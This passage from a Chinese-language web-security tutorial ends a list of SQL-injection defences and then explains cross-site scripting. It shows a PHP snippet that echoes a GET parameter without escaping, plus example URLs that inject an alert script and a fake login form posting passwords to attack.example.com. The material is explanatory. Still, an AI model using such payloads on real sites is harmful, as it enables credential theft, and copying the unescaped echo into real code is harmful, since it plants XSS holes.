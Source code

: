 
* 更换危险字符。例如在PHP通过`addslashes()`函数保护SQL注入。


* 限制用户输入的长度，限制用户输入的取值范围。


* 为当前应用建立权限比较小的数据库用户，这样不会导致数据库管理员丢失。


* 把数据库操作封装成一个Service，对于敏感数据，对于每个客户端的IP，在一定时间内每次只返回一条记录。这样可以避免被拖库。


#### 


#### 跨网站脚本注 入


**跨网站脚本**（**Cross-site** scripting，通常简称为XSS或跨站脚本或跨站脚本攻击）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java， VBScript， ActiveX， Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。


假如我们有这样一段PHP的代码：



```
$username = $_GET['username'];
echo '<div> Welcome, ' . $username . '</div>';
```

那么我们可以这样来注入：


http://trustedSite.example.com/welcome.php?username=<Script Language=”Javascript”>alert(“You’ve been attacked!”);</Script>
甚至这样：


http://trustedSite.example.com/welcome.php?username=<div id=”stealPassword”>Please Login:<form name=”input” action=”http://attack.example.com/stealPassword.php” method=”post”>Username: <input type=”text” name=”username” /><br/>Password: <input type=”password” name=”password” /><input type=”submit” value=”Login” /></form></div>
这会让网页显示以下内容：



```

<div class="header"> Welcome,
    <div id="stealPassword">Please Login:
        <form name="input" action="attack.example.com/stealPassword.php" method="post">
            Username: <input type="text" name="username" />
            <br/>
            Password: <input type="password" name="password" />
            <input type="submit" value="Login" />
        </form>
    </div>
</div>

```
